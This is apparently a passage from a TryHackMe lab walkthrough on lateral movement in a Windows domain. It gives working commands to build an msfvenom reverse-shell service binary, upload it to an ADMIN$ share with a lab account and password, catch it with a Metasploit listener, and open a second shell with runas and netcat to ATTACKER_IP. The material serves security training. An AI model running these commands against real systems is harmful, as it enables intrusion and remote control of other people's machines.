 To create a reverse shell, we can use the following command:

**Note**: Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myservice.exe" to avoid overwriting someone else's payload.

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

We will then proceed to use t1_leonard.summers credentials to upload our payload to the ADMIN$ share of THMIIS using smbclient from our AttackBox:

```bash
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

Once our executable is uploaded, we will set up a listener on the attacker's machine to receive the reverse shell from `msfconsole`:

```
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
```

Alternatively, you can run the following one-liner on your Linux console to do the same:

```
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with t1_leonard.summer's access token. Still, we only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use runas to spawn a second reverse shell with t1_leonard.summers access token:

```
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

**Note**: Remember that since you are using `runas` with the `/netonly` option, it will not bother to check if the provided credentials are valid, so be sure to type the password correctly. If you don't, you will see some ACCESS DENIED errors later in the room.

We can receive the reverse shell connection using nc in our AttackBox as usual:

```bash
nc -lvp 4443
```
